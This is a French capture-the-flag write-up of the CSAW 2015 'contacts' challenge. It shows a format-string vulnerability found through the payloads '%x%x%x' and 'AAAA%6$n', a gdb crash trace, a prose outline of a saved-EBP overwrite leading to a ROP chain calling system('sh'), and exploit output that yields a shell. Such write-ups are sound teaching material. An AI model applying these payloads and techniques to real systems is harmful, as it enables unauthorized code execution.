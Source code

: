 Title: [CSAW-preq 2015] Contacts (exploitable 250)
Date: 2015-09-24
Tags: ctf,exploit,csaw2015
Author: Tosh
Summary: CSAW ctf write-up


Voici un petit write-up pour le challenge 'contacts' du CSAW ctf 2015.


### **Analyse**

```
$ rop-tool info ./exploit250
     ===== INFOS =====
    Filename                 ./repo/CTF/CSAW_preq_2015/exploit250
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x80485c0
    Loadables segments       2
    Sections                 28

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled

```

Pour ce challenge, je suis resté sur de l'analyse dynamique.

```
 $ ./contacts
 Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On a donc un programme qui permet de créer/détruire/éditer/afficher des contacts.

On découvre assez vite une vulnérabilité de type 'format string' dans la fonction permettant d'afficher les contacts :

```
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 10
            Enter description:
                    %x%x%x
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 4
    Contacts:
            Name: A
            Length 10
            Phone #: 0000000000
            Description: 9ee9358ecf4620b0
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On remarque, qu'en écrivant à l'adresse du 6ème argument, on est capable de réécrire un saved-ebp, et donc de rediriger le flux d'exécution si on arrive à avoir des données sous notre controle sur la stack :

```
$ gdb ./CTF/CSAW_preq_2015/exploit250
    Reading symbols from ./CTF/CSAW_preq_2015/exploit250...(no debugging symbols found)...done.
    gdb-peda$ r
    Starting program: /home/tosh/git/tosh-codes/repo/CTF/CSAW_preq_2015/exploit250
    warning: Cannot call inferior functions, Linux kernel PaX protection forbids return to non-executable pages!
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 100
            Enter description:
                    AAAA%6$n
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
>>> 4
    Contacts:
            Name: A
            Length 100
            Phone #: 0000000000
            Description: AAAA
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 5
    Thanks for trying out the demo, sadly your contacts are now erased

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x0
    EBX: 0x0
    ECX: 0xf27e7da8
    EDX: 0xf27e8870
    ESI: 0x1
    EDI: 0xf27e7000
    EBP: 0x4
    ESP: 0xfdc022f0
    EIP: 0x80487d1
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x80487d1
    [------------------------------------stack-------------------------------------]
    Invalid $SP address: 0xfdc022f0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x080487d1 in ?? ()
    gdb-peda$ x/2i $eip
    => 0x80487d1:   leave
       0x80487d2:   ret
    gdb-peda$ x $ebp
       0x4: Cannot access memory at address 0x4
```


### *Exploitation*


#### 0x00

Grace à la format string, je leak l'adresse de la stack (6ème argument) et de la libc (2nd argument)

#### 0x01

Je créer un contact afin de mettre des données que je controle sur la stack. Il s'agit d'une rop chain, faisant simplement un system("sh").

Afin d'augmenter les chances de retomber dessus, je rajoute au début un rop sled (une suite de ret).

#### 0x02

Ensuite, je réécrit les 2 bytes de poids faible du saved-ebp (6ème argument présent sur la stack), afin de faire pointer esp sur ma rop-chain au moment du ret.

#### 0x03

Il nous reste plus qu'à quitter le programme, afin que notre fonction retourne, et retombe sur notre rop-chain...


La difficulté majeure à laquelle j'ai été confronté, était que je n'avais aucune idée de quelle libc était utilisée sur le serveur distant...

Mais après quelques essais, j'ai tout de même réussi à retrouver les bons offsets principalement grâce à ce répo github : [libc-database](https://github.com/niklasb/libc-database)


```
    $ perl sploit.pl
    [+] Stack: 0xfff3e788
    [+] Libc: 0xf7604000
    [+] puts: 0xf7668c10
    [+] system: 0xf7643cd0
    [+] Enjoy your shell !
    $ ls
    contacts_54f3188f64e548565bc1b87d7aa07427
    flag
    $ cat flag
    flag{f0rm47_s7r1ng5_4r3_fun_57uff}
```


[exploit](https://github.com/t00sh/ctf/blob/master/csaw_preq_2015/exploit250.pl)

[binaire](https://t0x0sh.org/repo/CTF/CSAW_preq_2015/exploit250)